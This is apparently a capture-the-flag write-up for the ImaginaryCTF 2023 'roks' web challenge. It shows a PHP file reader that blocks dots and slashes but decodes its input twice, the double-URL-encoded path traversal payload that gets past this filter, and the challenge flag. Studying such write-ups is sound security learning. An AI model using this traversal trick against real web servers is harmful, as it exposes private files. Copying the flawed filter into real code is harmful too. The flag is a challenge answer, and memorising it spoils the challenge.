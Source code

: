 ```yaml
---
title: 2023 ImaginaryCTF - roks
author: Gr33nM0nk3y
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Web Exploitation, write-ups]
---
```


* Points: 100

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

### Attached

[roks.zip](https://imaginaryctf.org/r/0Sm4V#roks.zip)

## Analyzation

Check the docker file first
```docker
FROM php:8-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
COPY file.php /var/www/html/
COPY styles.css /var/www/html/
COPY stopHacking.png /var/www/html/

RUN mkdir /var/www/html/images
COPY images/* /var/www/html/images
COPY flag.png /

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```

So the flag is at root directory, and the site is at ```/var/www/html/```

Check the ```index.php```

```php
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

then ```file.php```

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

So we must do directory traversal, but we cannot use dot "." or slash "/".

Also, ascii code, like

```
%2e%2e%2f
```

will not work due to
```php
$filename = urldecode($_GET["file"]);
```

## Solution

Encode one time fails, so do it twice

```
%252e%252e%252f
```

The flag is
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```